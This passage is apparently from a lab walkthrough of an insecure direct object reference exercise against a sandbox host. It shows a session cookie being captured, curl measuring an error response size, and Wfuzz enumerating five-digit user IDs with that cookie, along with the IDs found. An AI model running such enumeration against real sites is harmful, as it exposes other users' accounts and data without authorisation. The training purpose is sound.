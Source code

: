 To retrieve this session ID, we need to enable `Intercept` in Burp Suite and capture a request from the login URI of /user/login.php authenticated as the user Harb.

![[Pasted image 20241105155712.png]]

Capturing the above request provides us with a cookie value. We can use curl again, this time with the session ID, and attempt to gain an erroneous response size from an authenticated perspective.

***Please note that the session ID will differ and should be closely examined.***

The next curl command is only slightly different than before. We'll add the `--header` argument for an authenticated request, and also include a random UID value of `"91191"` to gather a known erroneous response size.

```bash
kali@kali:~$ curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=f41ffa33a0125d011ec500d2fc80afd8"
...
2873
```
![[Pasted image 20241105155902.png]]


The response size for a logged-in session's erroneous output is `2873 bytes`. We will make sure to exclude this value in our upcoming fuzzing attempts.

Let's begin fuzzing. Within Wfuzz, we can use the `-c` argument to denote that we would like color output. Next, `-z` acts as our file input method. We'll specify file, followed by our wordlist. Next, we will exclude any 404 responses by providing the `--hc 404` argument-value combination. To exclude our erroneous bytes (2873), we will provide the `--hh 2873` argument-value combination.

Finally, we need provide a header containing a cookie value. This can be done using the `-H` argument followed by the cookie value we previously collected. Our fuzzing endpoint is `http://idor-sandbox:80/user/?uid=FUZZ`.

```bash
┌──(root💀gobots)-[05Nov2024 20:57:58]-[/home/kali]
└─# wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=f41ffa33a0125d011ec500d2fc80afd8" http://idor-sandbox:80/user/?uid=FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://idor-sandbox:80/user/?uid=FUZZ
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                   
=====================================================================

000011112:   200        76 L     176 W      2902 Ch     "11111"                                                                                       
000016328:   200        76 L     176 W      2906 Ch     "16327"                                                                                       
000023102:   200        76 L     176 W      2908 Ch     "23101"                                                                                       
000039202:   200        76 L     176 W      2907 Ch     "39201"                                                                                       
000041913:   200        76 L     176 W      2908 Ch     "41912"                                                                                       
000057192:   200        76 L     176 W      2908 Ch     "57191"                                                                                       
000062719:   200        76 L     176 W      2910 Ch     "62718"                                                                                       
000074833:   200        76 L     176 W      2904 Ch     "74832"                                                                                       
```